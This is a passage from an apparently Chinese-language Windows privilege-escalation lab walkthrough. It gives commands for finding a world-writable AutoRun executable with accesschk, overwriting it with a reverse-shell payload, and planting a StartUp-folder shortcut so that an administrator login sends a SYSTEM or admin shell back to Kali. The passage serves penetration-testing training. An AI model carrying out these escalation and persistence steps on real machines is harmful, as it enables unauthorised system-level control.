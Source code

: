 使用accesschk.exe，检查这个程序的权限，请注意，每个人都可以写入其中一个AutoRun可执行文件：

```
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

![image-20200712120852764](assets/8.提权.assets/image-20200712120852764.png)

复制您创建的reverse.exe可执行文件，并用它覆盖AutoRun可执行文件 ：

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

请注意，你可能需要重新启动目标技巧才能让自启动文件以system运行

###### 利用开始菜单的启动快捷方式漏洞

检查启动快捷方式的建立权限，everyone也行，当前用户也可以。

![image-20200712174227959](assets/8.提权.assets/image-20200712174227959.png)

使用cscript，运行C：\ PrivEsc \ CreateShortcut.vbs 脚本，该脚本应在StartUp目录中为您的reverse.exe可执行文件创建新的快捷方式：

```
cscript C:\PrivEsc\CreateShortcut.vbs
```

在Kali上启动一个侦听器，然后使用RDP和先前提取的凭据来模拟管理员登录，实际情况中需要管理员登录后才能返回一个管理员shell给kali，这种方式时候在一些有管理员登录的情况下使用。

